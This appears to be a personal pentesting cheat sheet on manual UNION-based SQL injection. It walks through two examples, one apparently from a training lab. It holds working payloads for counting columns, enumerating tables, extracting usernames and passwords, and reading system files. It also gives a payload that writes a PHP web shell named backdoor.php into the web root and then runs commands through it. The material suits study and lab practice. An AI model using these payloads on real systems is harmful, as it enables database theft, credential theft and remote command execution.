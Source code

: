 ```yaml
---
category: Uncategorized
tags: []
---
```

#### example 1

First get out error with single quote

`/debug.php?id='`

Then use "order by" to find all columns.  Keep increasing until you have an error!  If error occurs on 4, then you have 3 columns!
```
/debug.php?id=1 order by 1,2,3
```

Next, we use UNION to discover which columns are being displayed in the page:
```
/debug.php?id=1 union all select 1, 2, 3
```


We will target #3, as it seems to have the most space available.
```
/debug.php?id=1 union all select 1, 2, @@version
```

```
/debug.php?id=1 union all select 1, 2, user()
```

Enumerate DB tables and column structures:
```
/debug.php?id=1 union all select 1, 2, table_name from information_schema.tables
```

Target users table and retrieve the column names:
```
/debug.php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'
```

Extract usernames and passwords:
```
/debug.php?id=1 union all select 1, username, password from users
```

#### Reading files
```
/debug.php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
```

Notice when we have an error, we get the whole file path.  

We can use this info to craft a malicious php file and place it into the root web directory.
```
/debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```

While we do get an error message, the file did get created and works just fine:
```
/backdoor.php?cmd=ipconfig
```

#### example 2
Example from Dante:
```
http://172.16.1.12/blog/single.php?id='
```

The above threw an error:
>You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1

We append some known tricks to break out the syntax:
	* If nothing happens here, just continue on to UNION statements!
```
http://172.16.1.12/blog/single.php?id=' -- -
```

We then build up the UNION statement, starting at 1, until the web page renders properly again.  Also, we can see some of the numbers on screen, we can pick which entry is good for our details next.
```
' UNION select 1,2,3,4,5,6,7,8,9-- -
```

Find the version of MariaDB:
```
' UNION select 1,version(),3,4,5,6,7,8,9-- -
```
10.4.13-MariaDB

Retrieve Database name:
```
' UNION select 1,database(),3,4,5,6,7,8,9-- -
```
blog_admin_db

Current user:
```
' UNION select 1,user(),3,4,5,6,7,8,9-- -
```

datadir:
```
' UNION select 1,@@datadir,3,4,5,6,7,8,9-- -
```

